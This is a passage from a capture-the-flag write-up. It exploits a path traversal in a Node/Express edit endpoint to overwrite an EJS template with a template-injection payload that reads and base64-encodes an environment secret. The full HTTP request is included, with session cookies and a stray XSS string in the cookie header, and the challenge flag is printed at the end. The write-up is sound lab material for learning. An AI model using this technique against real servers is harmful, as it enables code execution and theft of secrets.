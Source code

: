 http://nginx.org/en/docs/http/ngx_http_sub_module.html

Again looking into the source code, we can spot another path traversal bug. But this time we have full control over the content of the file also

```js
app.post("/edit", (req, res) => {
    if (!req.session.admin) return res.sendStatus(401);
    try {
        fs.writeFileSync(path.join("articles", req.query.id), req.body.article.replace(/\r/g, ""));
        res.redirect("/");
    } catch {
        res.sendStatus(404);
    }
})
```

To make sure that nginx doesn't replace the flag with something else, Ithough of encoding the flag to another format. As the site uses ejs template I could overwrite any of the available template file and execute my own templates for eg: 

```js
<%= Buffer.from(process.env.FLAG,'ascii').toString("base64")%>
```

This will encode the flag to base64

Here's the request , notice the `id` parameter value , you can change it to any file which you want to overwrite as changing any other such as the .js file would require a server restart I used the template file instead :

```
POST /edit?id=../views/scripts.ejs HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://127.0.0.1:1337
Connection: close
Referer: http://127.0.0.1:1337/edit?id=1
Cookie: wp-settings-time-1=1663159225; BITBUCKETSESSIONID=CB8444D322BCB0EBA83295A2BE124807; _atl_bitbucket_remember_me=MzYwMThjZTA3OWE4ZmM4NzdmMjBiODY3NThjNWFkOTU4MGI5OTNjNjo4ODEyMzg0MTljYWVlYjcxNTQ3YWMyZWYyNTJiMmNhZTk3NWUzYjJm; DOKU_PREFS=difftype%23sidebyside%2522%253E%253Cimg%2520src%253Dx%2520onerror%253Dalert%2528%2529%253E; connect.sid=s%3AaWx9KB0bw_2BGfsC-RNgVKx5NYSuVyA4.k5QJAM0yBB2%2FHSkNHR0hbZEhVroVsEUZznULHHZvfKw
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

article=<%= Buffer.from(process.env.FLAG,'ascii').toString("base64")%>
```

Now when you will visit the edit page, the base64 encoded flag should be right there.

This was a really good challenge: BlackHatMEA{1475:16:6eb55fd9172620043c27f3a781bfb966e4efe6a5} 